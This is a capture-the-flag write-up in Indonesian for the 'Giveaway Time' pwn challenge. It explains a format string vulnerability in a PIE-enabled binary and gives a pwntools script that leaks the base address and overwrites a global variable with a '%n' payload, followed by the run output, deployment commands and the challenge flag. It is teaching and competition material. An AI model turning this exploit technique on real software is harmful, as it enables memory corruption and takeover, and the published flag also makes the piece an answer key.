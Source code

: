 # Giveaway Time (100 Pts)

## Deskripsi
Coba keberuntunganmu dengan mengikuti giveaway ini.

Author : Inlandsche

## Hint 
Tidak ada

## Proof of Concept
Pertama, lakukan analisa kode program dengan menggunakan software disassambler (`ghidra/IDA`) atau dengan `gdb`.
Program memiliki kelemahan pada fungsi `printf(address)` atau biasa disebut dengan **format string vulnerability**. 

Pada program ini, terdapat proteksi dengan menggunakan **PIE** sehingga peserta harus mencari **base address** terlebih dahulu. Program telah mengeluarkan output berupa **id registrasi** yang dapat digunakan untuk mencari base address.

`base_address = int(id_registrasi) - int(registration_address)`

Setelah mendapat base address, eksekusi program dengan menggunakan **format string attack**. Peserta harus melakukan overwrite suatu variabel global dengan nama variabel `prize`.

Contoh script sederhana

```python3
from pwn import *

elf = ELF('./giveaway')

prize = elf.symbols['prize']
registration = elf.symbols['registration']

p = elf.process()
p.sendline("Hology4.0")

p.recvuntil("This is your registration id, ")
regist = int(p.recv(10), 0)

base = regist - registration
prizes = prize + base

payload = p32(prizes) + b"%4$n"

p.sendline(payload)
p.interactive()
```

Output dari script tersebut

```
[*] '/home/inlandsche/CySec/Hology Soal/fix/giveaway'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/inlandsche/CySec/Hology Soal/fix/giveaway': pid 4818
/home/inlandsche/CySec/Hology Soal/fix/sc.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline("Hology4.0")
/home/inlandsche/CySec/Hology Soal/fix/sc.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("This is your registration id, ")
[*] Switching to interactive mode
 
Please do the registration to get the prize
Your Address: Your Address is, 0\xe0_V
You win this!


hology4{f0rm4T_5tRing_Giv3aw4y}
[*] Process '/home/inlandsche/CySec/Hology Soal/fix/giveaway' stopped with exit code 0 (pid 4818)
[*] Got EOF while reading in interactive
```

## Referensi
Tidak ada

## Deployment

```
#docker build -t giveaway
#docker run -d --name=giveaway -p 31420:31420/tcp giveaway
#crontab /path/to/crontab

tcpserver -t 30 -RHl0 -v 0.0.0.0 9999 ./giveaway 
```

## Flag
<details>
<summary>Tekan untuk melihat flag</summary>

    hology4{f0rm4T_5tRing_Giv3aw4y}

</details>
